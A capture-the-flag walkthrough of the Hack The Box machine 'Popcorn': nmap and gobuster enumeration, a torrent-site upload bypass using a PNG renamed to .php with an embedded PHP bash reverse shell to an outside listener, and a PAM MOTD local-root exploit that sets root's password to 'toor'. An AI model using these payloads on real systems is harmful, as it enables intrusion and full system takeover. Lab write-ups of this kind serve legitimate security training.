


## Popcorn

Difficulty: Medium
Machine IP: 10.10.10.6

## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA nmap/popcorn.nmap 10.10.10.6                                                                                                                                        4 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 18:47 EDT
Nmap scan report for 10.10.10.6
Host is up (0.093s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
```

## Enumeration

### gobuster

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://10.10.10.6 -t 20 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.6
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/08/28 18:49:16 Starting gobuster
===============================================================
/index (Status: 200)
/test (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
```

- Torrent page



- create an account and upload a torrent file and submit
- then `edit` the screenshot with some random png file and capture the request.
- Noe change it to..
```php
Content-Disposition: form-data; name="file"; filename="feed2.png.php"
Content-Type: image/png

�PNG
�
IHDR�,�1d�IT    pHYs

                    ��~�tEXtSoftwareMacromedia Fireworks 8�h�xtEXtCreation Time06/01/07[� � IDATx���w�%Gy�����&����j�6���J$AX`�@p�����,l��^� �026�p-cc&.?	�+!$���Z�v�9N�9���~�	�}�Ϝ��Y�@��̜��
ou}���]��1f����q0�/U����Ǟ�M��}�?9~\�Г� D�E���Hn�F܁�;�������ڷ\�	�]�������(
c�9Sy�/;�}QP�������`��,E

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/5555 0>&1'");?> 

```
and submit.

- Setup the listenr on kali and open the image by clicking on it.

__Result__

```bash
$ nc -lvnp  5555            
listening on [any] 5555 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.6] 60615
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty; pty.spawn("/bin/bash")'
<orrent/upload$ python -c 'import pty; pty.spawn("/bin/bash")'               
www-data@popcorn:/var/www/torrent/upload$ which bash
which bash
/bin/bash
www-data@popcorn:/var/www/torrent/upload$ cd /home 
cd /home
www-data@popcorn:/home$ ls
ls
george
```


## Privilege Escalation

- Found `.cache` folder container a interesting file
```bash
root@popcorn:/home/george/.cache# ls -la
ls -la
total 8
drwxr-xr-x 2 george george 4096 2017-03-17 18:58 .
drwxr-xr-x 3 george george 4096 2020-10-26 19:35 ..
-rw-r--r-- 1 george george    0 2017-03-17 18:58 motd.legal-displayed
```
- On simple `exploit-db` search found two priv esc exploits and found one working



- now copy the exploit and run 

```bash
www-data@popcorn:/tmp$ chmod +x exploit.sh
chmod +x exploit.sh
www-data@popcorn:/tmp$ ./exploit.sh
./exploit.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor
```

__Result__
```bash
Password: toor

root@popcorn:/tmp# 	id
id
uid=0(root) gid=0(root) groups=0(root)
```
